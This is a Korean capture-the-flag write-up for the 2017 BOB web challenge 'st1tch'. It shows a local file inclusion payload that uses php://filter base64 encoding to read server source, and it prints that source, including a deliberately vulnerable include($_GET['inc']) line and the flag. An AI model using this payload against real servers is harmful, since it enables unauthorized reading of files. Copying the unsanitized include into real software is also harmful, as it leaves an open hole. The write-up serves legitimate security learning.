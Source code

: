 # [2017_BOB] \[WEB] st1tch

### Problem

서버 - http://220.230.122.140/bob/

![1](1.png)

접속해보면 위와 같이 뜬다. ?inc=index.php 를 입력해봤지만 ob_start() 함수 때문에 실패했다.



### Solution

`http://220.230.122.140/bob/?inc=php://filter/convert.base64-encode/resource=index.php` 접속

```php
<table>
<th>
<td>
<?php
	include 'st1tch.php';
?>
<td>
<th>
<table>
<title> st1tch... </title>
<div style='border:2px solid; width:50%'>
<div style='border:1px solid; width:100%;'>
<?php
	echo "<font size =4><b>If you can see my code, <br>I'll offer flag to you.</b></font><br>";
?>
</div>
<img src="./stitch.png" width = "100%"/><br>
</div>
```

`http://220.230.122.140/bob/?inc=php://filter/convert.base64-encode/resource=st1tch.php` 접속

```php
<?php
$flag='BOB6{st1tch_LFI_web_challenge!}';

if(!@include($_GET['inc']))
	echo "READ MY FILE!!!!</br>";
ob_start();
highlight_file(__FILE__);
echo str_replace($flag, '****************', ob_get_clean());
?>
```

